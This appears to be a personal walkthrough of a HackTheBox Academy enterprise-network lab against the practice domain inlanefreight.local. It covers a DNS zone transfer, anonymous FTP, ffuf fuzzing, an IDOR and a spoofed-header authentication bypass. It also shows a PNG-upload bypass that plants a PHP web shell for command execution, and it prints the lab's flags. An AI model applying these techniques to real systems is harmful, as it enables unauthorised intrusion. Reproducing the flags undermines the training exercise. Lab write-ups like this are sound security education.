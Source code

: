 ```yaml
---
title: HTBAcademy Attacking Enterprise Networks Walkthrough
date: 2025-03-14 00:00:01 +0800
categories: [HackTheBox]
tags: [HackTheBox]
author: Kevin Chen
---
```


# HTBAcademy Attacking Enterprise Networks Walkthrough

## First Flag

The first flag was found using the following command:

```sh
dig axfr inlanefreight.local @10.129.229.147
```

### Output:
```
; <<>> DiG 9.18.30-0ubuntu0.24.04.2-Ubuntu <<>> axfr inlanefreight.local @10.129.229.147
;; global options: +cmd
inlanefreight.local. 86400 IN SOA ns1.inlanfreight.local. dnsadmin.inlanfreight.local. 21 604800 86400 2419200 86400
inlanefreight.local. 86400 IN NS inlanefreight.local.
inlanefreight.local. 86400 IN A 127.0.0.1
blog.inlanefreight.local. 86400 IN A 127.0.0.1
careers.inlanefreight.local. 86400 IN A 127.0.0.1
dev.inlanefreight.local. 86400 IN A 127.0.0.1
flag.inlanefreight.local. 86400 IN TXT "HTB{DNs_ZOn3_Tr@nsf3r}"
gitlab.inlanefreight.local. 86400 IN A 127.0.0.1
ir.inlanefreight.local. 86400 IN A 127.0.0.1
status.inlanefreight.local. 86400 IN A 127.0.0.1
support.inlanefreight.local. 86400 IN A 127.0.0.1
tracking.inlanefreight.local. 86400 IN A 127.0.0.1
vpn.inlanefreight.local. 86400 IN A 127.0.0.1
```

---

## Second Flag

Found using an FTP anonymous login:

```sh
ftp anonymous@ip
get flag.txt
```

---

## Parameter Fuzzing

I used `ffuf` to discover parameters:

```sh
ffuf -u http://careers.inlanefreight.local:80/FUZZ?id=1 -w /home/kchen/SecLists/Discovery/Web-Content/burp-parameter-names.txt -mc 200-299,301,302,307,401,403,405,500
```

### Results:
```
apply        [Status: 200, Size: 16408, Words: 5625, Lines: 265, Duration: 84ms]
login        [Status: 200, Size: 9459, Words: 2752, Lines: 187, Duration: 159ms]
profile      [Status: 200, Size: 10148, Words: 3146, Lines: 195, Duration: 159ms]
register     [Status: 200, Size: 9754, Words: 2772, Lines: 191, Duration: 182ms]
```

I registered an account at:

```
http://careers.inlanefreight.local:80/register?id=1
```

Then, accessing:

```
http://careers.inlanefreight.local:80/profile?id=4
```

gave me the second flag:

```
HTB{8f40ecf17f681612246fa5728c159e46}
```

---

## Exploiting `dev.inlanefreight.local`

Used `ffuf` to discover PHP files:

```
dev.inlanefreight.local/login.php
```

The `GET` request was denied, but after testing various HTTP methods, `TRACK` worked. The request included a header:

```
X-Custom-IP-Authorization: 172.x.x.x
```

Setting it to `127.0.0.1` allowed me to bypass authentication.

---

## File Upload Exploit

I found an image upload feature but it only accepted `image/png`. To bypass this, I:

1. Uploaded a PNG file and recorded the HTTP request in BurpSuite.
2. Modified the file contents to a PHP web shell.
3. Changed the filename extension in BurpSuite to `.php`.
4. Resent the modified request.

The file was uploaded successfully to:

```
/uploads/screenshot.php
```

Executing commands via:

```
http://dev.inlanefreight.local/uploads/screenshot.php?cmd=id
```

---

## Finding the Next Flag

To locate flag files, I ran:

```sh
find / -type f -name "*flag.txt*"
```

Since this was a web shell, I had to URL encode the command before execution.

---
